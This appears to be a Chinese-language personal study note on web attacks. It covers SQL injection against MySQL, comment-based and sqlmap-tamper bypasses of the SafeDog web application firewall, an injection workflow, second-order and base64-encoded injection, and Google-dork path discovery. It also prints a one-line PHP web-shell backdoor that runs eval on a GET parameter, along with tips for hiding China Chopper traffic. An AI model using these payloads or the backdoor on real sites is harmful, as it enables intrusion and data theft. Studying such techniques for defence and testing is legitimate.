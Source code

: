 ```shell
# 安全狗拦截
#mysql的注入方式
#通过这样的方式:注释
/*x*/union select ...

/*!xxxx*/

sqlmap tamper插件 过狗

```



一个注入的流程：

```shell
# 1.判断是否有注入点：and 1=1 ; and 1=2

# 3.判断SQL查询的字段的个数，order by 1; order by 2,一个一个的试试

# 3.过安全狗

# 4.注入SQL，拿到想要的数据

# 5.python实现（发包，过狗规则，匹配结果）

```

表面免杀

```php
/*网站后门*/
<?php
$code = $_GET['x'];
//执行远程命令
eval($code)
?>
```



过狗一句话

菜刀的原理

```shell
#通过eval/assert执行代码，而执行的代码中包含文件管理的执行，所以可以返回文件管理的数据包

```

可以通过菜刀执行上述逻辑



过狗菜刀：避免菜刀的特征，比如修改base64加解密等方式，可以手动模拟过狗



行为免杀



TODO
需要学习一下Python的爬虫模块，正则模块



目录扫描的逻辑： 内置URL字典

domain/url



请求方式的注入及特点

我们自己写注入语句，可能只是会在GET，POST，COOKIE，HEAD中单独的写注入语句，但是工具可能会帮我们在上述所能注入的地方都写上，这就是工具的好处



网站绝对路径的获取方法

1. 报错显示

2. 谷歌黑客（谷歌语法）

   ```shell
   site domain.com warning
   ```

3. 遗留文件

   php info test 等文件

4. 读取搭建平台的配置文件

5. 社工（漏洞、爆破等）



数据类型

字符类型：单引号的问题

数字类型：

搜索类型：like



二次注入

特性：

1. 黑盒测试无法发现（wvs类型扫描软件）
2. 产生二次注入集中在交互区（评论，留言等）

攻击者尝试留言或评论，输入数据将插入到数据库中，网站会将输入的数据显示

1. 插入数据 insert
2. 执行显示数据 select；



攻击者通过将用户名写成注入语句，用户中心以接受用户名为查询用户情况，注入产生流程

1. 先将注入语句以用户名插入到数据库中
2. 点击用户名即传输语句重新组合



base64编码：

如果参数值是经过编码的，那么我们的注入也是要进过base64编码之后来注入

